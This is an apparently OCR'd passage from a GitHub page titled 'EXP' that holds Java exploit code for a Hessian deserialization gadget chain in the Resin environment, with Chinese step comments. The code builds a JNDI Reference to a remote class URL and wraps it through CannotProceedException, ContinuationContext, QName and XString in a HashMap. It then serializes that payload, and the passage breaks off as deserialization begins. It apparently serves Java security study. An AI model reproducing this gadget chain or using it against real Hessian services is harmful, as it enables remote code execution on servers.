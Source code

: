 #### EXP

```bash
package org.dili.hessian;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.caucho.hessian.io.SerializerFactory;
import com.caucho.naming.QName;
import com.sun.org.apache.xpath.internal.objects.XString;
import javax.naming.CannotProceedException;
import javax.naming.Context;
import javax.naming.Reference;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;

public class ResinHessian {
    public static void main(String[] args) throws Exception {
        String refAddr = "http://127.0.0.1:8888/";
        String refClassName = "test";

        Reference ref = new Reference(refClassName, refClassName, refAddr);

        Object cannotProceedException = Class.forName("javax.naming.CannotProceedException").getDeclaredConstructor().newInstance();
        String classname = "javax.naming.NamingException";
        setFiled(classname, cannotProceedException, "resolvedObj", ref);

        // 创建ContinuationContext对象
        Class<?> aClass = Class.forName("javax.naming.spi.ContinuationContext");
        Constructor<?> constructor = aClass.getDeclaredConstructor(CannotProceedException.class, Hashtable.class);
        // 构造方法为protected修饰
        constructor.setAccessible(true);
        Context continuationContext = (Context) constructor.newInstance(cannotProceedException, new Hashtable<>());


        // 创建QName
        QName qName = new QName(continuationContext, "aaa", "bbb");
        String str = unhash(qName.hashCode());
        // 创建Xtring
        XString xString = new XString(str);

        // 创建HashMap
        HashMap hashMap = new HashMap();
        hashMap.put(qName, "111");
        hashMap.put(xString, "222");

        // 序列化
        FileOutputStream fileOutputStream = new FileOutputStream("JavaSec/out/ResinHessian.bin");
        Hessian2Output hessian2Output = new Hessian2Output(fileOutputStream);
        SerializerFactory serializerFactory = new SerializerFactory();
        serializerFactory.setAllowNonSerializable(true);
        hessian2Output.setSerializerFactory(serializerFactory);
        hessian2Output.writeObject(hashMap);
        hessian2Output.close();

        // 反序列化
        FileInputStream fileInputStream = new FileInputStream("JavaSec/out/ResinHessian.bin");
```
